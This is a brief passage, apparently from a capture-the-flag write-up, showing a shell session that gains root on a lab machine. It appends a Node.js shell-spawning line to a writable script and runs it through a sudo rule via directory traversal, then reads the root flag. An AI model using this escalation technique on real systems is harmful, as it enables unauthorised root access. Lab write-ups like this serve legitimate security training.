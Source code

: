 {% highlight shell %}
-bash-5.0$ echo 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})' >> /home/angoose/.xabaras/privesc.js
-bash-5.0$ sudo /usr/bin/node /usr/local/scripts/../../../home/angoose/.xabaras/privesc.js 
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
f181d2b572196374ac881b40616d733d
# 

{% endhighlight %}